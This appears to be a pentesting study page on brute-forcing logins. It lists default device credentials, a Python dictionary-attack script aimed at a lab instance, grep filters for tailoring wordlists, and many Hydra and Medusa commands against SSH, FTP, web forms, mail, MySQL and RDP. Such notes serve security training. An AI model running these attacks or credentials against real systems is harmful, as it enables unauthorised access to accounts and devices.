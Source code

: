 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
SecLists maintains a list of common usernames at [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt).

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
We can costumize wordlists based on the password policy:
```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```
These commands:
- Filter for passwords containing at least 8 characters.
- Enforces at least one uppercase letter.
- Enforces at least one lowercase letter.
- Enforces that passwords containing at least one numerical digit.

*Note: Many users reuse passwords across multiple online accounts, so breached passwords can be useful.*

## Hydra
It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.
Hydra's basic syntax:
```
hydra [login_options] [password_options] [attack_options] [service_options]
```
Few examples:
- FTP: `hydra -l admin -P /path/to/password_list.txt ftp://$ip`, `hydra -L usernames.txt -P passwords.txt -s $port -V ftp.example.com ftp`
- SSH: `hydra -l root -P /path/to/password_list.txt ssh://$ip`, `hydra -l root -p toor -M targets.txt ssh`
- HTTP-GET (Basic HTTP Authentication): `hydra -L usernames.txt -P passwords.txt www.example.com http-get`, `hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt $ip http-get / -s $port`
- HTTP-POST: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`,`hydra -l admin -P /path/to/password_list.txt $ip http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`
- SMTP: `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`
- POP3: `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`
- IMAP: `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`
- MySQL: `hydra -l root -P /path/to/password_list.txt mysql://$ip`
- RDP: `hydra -l admin -P /path/to/password_list.txt rdp://$ip`, `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 $ip rdp`

### Constructing the params String (HTTP-POST)
This string encapsulates the data that will be sent to the server with each login attempt, mimicking a legitimate form submission.
- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

## Medusa
```
medusa [target_options] [credential_options] -M module [module_options]
```
Few examples:
- SSH: `medusa -h $ip -n $port -U usernames.txt -P passwords.txt -M ssh -t 3`, `medusa -h $ip -u user -P passwords.txt -M ssh`
- HTTP-GET (Basic HTTP Authentication): `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`
- `medusa -h $ip -U usernames.txt -e ns -M service_name`: Perform checks for empty passwords (-e n) and passwords matching the username (-e s).


